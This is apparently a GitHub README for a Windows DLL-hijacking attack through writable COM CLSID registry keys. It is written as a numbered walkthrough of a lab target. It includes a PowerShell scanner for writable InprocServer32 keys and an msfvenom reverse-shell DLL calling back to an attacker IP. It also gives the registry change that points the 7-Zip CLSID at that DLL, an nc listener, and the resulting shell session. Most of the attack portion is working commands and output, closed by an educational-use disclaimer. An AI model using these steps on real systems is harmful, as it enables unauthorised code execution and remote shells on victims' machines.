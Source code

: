 # windows-dll-hijack-clsid
Powershell script to find writable CLSIDs and then DLL Hijacking it

* ### Steps:
1) Let's first create a powershell script to find vulnerable CLSID keys, we'll call it as `find_writable_clsid.ps1`: 
```powershell
# Let's obtain all the current user's groups first by their name, not SID:
$myIdentity = [System.Security.Principal.WindowsIdentity]::GetCurrent()
$myGroups = $myIdentity.Groups | ForEach-Object {
    try {
        $_.Translate([System.Security.Principal.NTAccount]).Value
    } catch {
        $_.Value
    }
}
$myGroups += $myIdentity.Name  # Add the user directly

# Let's iterate all CLSID keys:
$base = "HKLM:\Software\Classes\CLSID"
$clsids = Get-ChildItem -Path $base -ErrorAction SilentlyContinue

foreach ($clsid in $clsids) {
    $inprocPath = Join-Path $clsid.PSPath "InprocServer32"
    
    if (Test-Path $inprocPath) {
        try {
            $acl = Get-Acl $inprocPath
            foreach ($access in $acl.Access) {
                $identity = $access.IdentityReference.Value
                $rights = $access.RegistryRights

                # Does the current user or group have WRITE PERMISSIONS (W or RW)?:
                if ($myGroups -contains $identity -and $rights -match "SetValue|WriteKey|FullControl") {
                    Write-Host "[PWN] Writable CLSID found!"
                    Write-Host "      Key: $inprocPath"
                    Write-Host "      Who: $identity"
                    Write-Host "      Rights: $rights`n"
                }
            }
        } catch {
            continue
        }
    }
}
```

2) We execute it and we find one vulnerable CLSID key (in this case the current user belongs to `RAGNAROK\Support` group, so we have RW rights, we have FullControl over it to write it):
```powershell
PS C:\users\public> .\find_writable_clsid.ps1

[PWN] Writable CLSID found!
      Key: Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32
      Who: RAGNAROK\Support
      Rights: FullControl
```

3) Once you find a vulnerable CLSID key, it's time to check where it comes from, in this case it says this below -> `(default)      : C:\Program Files\7-Zip\7-zip.dll`:
```powershell
PS C:\Users\Public> Get-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32"


(default)      : C:\Program Files\7-Zip\7-zip.dll
ThreadingModel : Apartment
PSPath         : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}\InprocServer32
PSParentPath   : Microsoft.PowerShell.Core\Registry::HKEY_LOCAL_MACHINE\Software\Classes\CLSID\{23170F69-40C1-278A-1000
                 -000100020000}
PSChildName    : InprocServer32
PSDrive        : HKLM
PSProvider     : Microsoft.PowerShell.Core\Registry
```

4) Now let's create our malicious DLL as `hijack.dll` in our attack machine (then send it to the target machine with the technique of your choice):
```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.16.10 LPORT=4444 -f dll -o hijack.dll
```   
   
5) Now let's replace the default value to our malicious DLL (this time we are using this route to upload the file `C:\Users\Public`, but it may be different):
```powershell
PS C:\users\public> Set-ItemProperty -Path "HKLM:\Software\Classes\CLSID\{23170F69-40C1-278A-1000-000100020000}\InprocServer32" -Name "(default)" -Value "C:\Users\Public\hijack.dll"

# This won't show any output!!!
```

6)  Let's have our listener on in our attacking machine:
```bash
rlwrap nc -nlvp 4444
```

7) We can execute the malicious DLL with it: 
```powershell
PS C:\users\public> start-process explorer.exe
```

 You may also execute it in this case with the 7-zip file inside it's folder as we know this has the vulnerable CLSID key:
 ```powershell
 PS C:\program files\7-zip> .\7z.exe`
 ```
 
 8) We receive the shell in our attacking machine:
```bash
rlwrap nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.129.100.159] 49980
Microsoft Windows [Version 10.0.17763.7434]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows>powershell
powershell
Windows PowerShell 
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows> whoami
whoami
ragnarok\mm.harper
PS C:\Windows> 
```


##### EXTRA: Here you can find a video to another DLL Hijacking technique using procmon.exe https://www.youtube.com/watch?v=XvxeUxOvKb0


> ### ⚠️ **DISCLAIMER**  
> ##### This project is intended for **educational and research purposes only**, to be used in **controlled environments** by **authorized penetration testers**.  
> ##### The creator assumes **no responsibility** for any misuse or damage caused by the use of this code.

